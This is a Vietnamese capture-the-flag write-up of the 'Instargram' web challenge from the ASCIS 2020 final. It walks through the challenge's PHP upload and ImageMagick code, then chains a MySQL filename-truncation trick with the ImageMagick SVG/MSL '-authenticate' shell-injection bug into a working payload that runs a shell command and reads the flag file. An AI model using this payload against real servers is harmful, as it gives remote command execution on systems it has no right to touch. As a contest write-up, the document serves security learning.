





# [ACIS-2020-Final] Sinh viên với An Toàn Thông Tin ASEAN 2020 Final

# Instargram

## Description

- Source: [Instargram](src)
- ImageMagick version: `7.0.10-37`
- Hints:
  1.  `Magic!!!`
  2.  `ducnt / @bcd1234`



## Summary

Website cho phép đăng ký, đăng nhập, thay đổi avatar. Khi thay đổi avatar sẽ gọi đến lệnh `convert` từ system (**Imagemagick**) để chuyển đổi ảnh. Kết hợp lỗi [ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) và **SQL Truncation Attack** khai thác thực thi mã từ xa (**RCE**).

## Analysis

### Upload

Những file upload lên server phải thỏa mãn những yêu cầu, đặc điểm sau:
1. Size <= `500000`
2. Thư mục lưu trữ của mỗi user là bí mật:
  ```php
  function gen_secret_path($username) {
      $secret_path = "images/avatars/".md5(SALT.$username)."/";
      return $secret_path;
  }
  $secret_path = gen_secret_path($username);
  ...
  $target_file = $secret_path . $avatar;
  ```
3. File type phải là: `JPG, JPEG, PNG, SVG && GIF`

### Convert

Khi upload avatar, server sẽ tạo 1 bản copy của file nhằm chuyển đổi sau đó. 
  ```php
    if( $count2 === 1 && $row['username'] === $username) 
    {
        $_prepare_for_convert = $secret_path.$row2['for_convert'];
        copy($target_file, $_prepare_for_convert);
    }
  ```

Tên của file convert này được thêm suffix: `-InStarGram-HackEmAll2020.png`
```php
function watermark($string) {
    return $string."-InStarGram-HackEmAll2020";
}
$_for_convert = trim($filename,".".$extension);
$_for_convert =  $_for_convert.".".$extension.watermark("").".png";
```
- Ví dụ: `shell.php.jpg` -> `shell.php.jpg-InStarGram-HackEmAll2020.png`

Khi đã upload lên server, server sẽ sử dụng **Imagemagick** để chuyển đổi ảnh
```php
  $_orignal_image = $row['for_convert'];
  $_orignal_image = $secret_path.$_orignal_image;
  $_orignal_image = superwaf($_orignal_image);
  $_convert_image = superwaf($_convert_image);
  $_beautify_image = "convert -level 0%,100%,2.0 ".$_orignal_image." ".$_convert_image;
  system($_beautify_image);
```
- *`superwaf()` giúp bảo vệ **Command Injection***
  ```php
  function superwaf($data) {
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    $data = escapeshellcmd($data);
    return $data;
  }
  ```

## Exploit

### ImageMagick Bug

- ImageMagick change log:

- Tìm ...  

- Và [đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) là bài phân tích chi tiết lỗi, cũng như cách exploit. Nó được đăng vào **November 21, 2020**. Vậy là đề được lấy cảm hứng từ 1 bug mới được public cách ngày thi 1 tuần ...

**Tóm lược**, ImageMagick cho phép sử dụng mật khẩu khi chuyển đổi PDF thông qua option `-authenticate`. Option này được dùng trong việc gọi một command khác, và nó không được làm sạch an toàn. Đồng nghĩa, việc kiểm soát thành công `-authenticate` sẽ dẫn đến **RCE**. Tuy nhiên điều này không phải lúc nào cũng khả thi (như trong bài này). May mắn thay, ImageMagick còn hỗ trợ **ImageMagick Scripting Language (MSL)** thông qua 1 file input **svg**, có thể truyền thẳng option bên trong nội dung file. Chi tiết hơn có thể xem [tại đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

**Quay lại với đề bài**, như vậy, nếu upload 1 file **SVG**, khi server gọi `convert evil.svg whatever.jpg`, thì `$(command)` sẽ được thực thi.

```html
<image authenticate='ff" `echo $(command)`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Tuy nhiên, `for_convert` được thêm suffix `-InStarGram-HackEmAll2020.png` nên không thể upload file **svg** được?

### SQLi Truncation Attack

Độ dài trường **for_convert** là **100**, vì vậy có thể tận dụng để truncate phần suffix của tên file.

```
CREATE TABLE `converts` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) DEFAULT NULL,
  `for_convert` varchar(100) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
```

Vậy tên file cần có dạng:
```php
$filename = str_repeat("a",96).".svg"
```

Lúc này, nếu tiến hành chạy reverse shell hay outbound thì sẽ nhận ra server đã chặn. Vậy cần phải extract output command ra đâu đó, ra file? Nhưng chỉ có thư mục upload là có quyền ghi và như đã trình bày, đường dẫn thư mục upload của mỗi user là bí mật?

*Đây cũng là lý do không dùng cách upload file php (dùng truncation attack) để lên shell được*

### Có điều gì đó đã bị bỏ qua ...?

Quay lại source code được cung cấp, tại `images/avatars/`:


**978581028bb6f432c5a3a7694e8dad32**?. Một gợi ý của đề để lại, thư mục upload của user **ducnt** với mode `0777`. Như vậy, đã tìm được nơi ghi output của command.

## Final Payload

- Filename: **aa...aa.svg** (length == 100)
- Payload
```html
<image authenticate='ff" `echo $(cat /flag.txt)> ./images/avatars/978581028bb6f432c5a3a7694e8dad32/doublevkay.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:./images/avatars/978581028bb6f432c5a3a7694e8dad32/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.svg" height="100" width="100"/>
  </svg>
</image>
```

Truy cập lại `/account.php` để kích hoạt `convert` và get flag.




**Flag:**

```ASCIS{amayzing-goodjob-em:https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html-(ft)-mysql-truncation}```

## Không liên quan

Thừa nhận hay không thì mình vẫn là một mắt xích yếu, sr my team!.

Và, yoh, hơi sến xíu nhưng thực sự cảm ơn những người anh đã giúp đỡ em trong chặng đường học cyber sec này, rất ý nghĩa, mà chắc còn dài =)).

Btw, chúc mừng team **HCMUS.Twice** - một chức vô địch xứng đáng. Cuộc thi là một trãi nghiệm rất thú vị, thanks all và ... hẹn gặp lại!
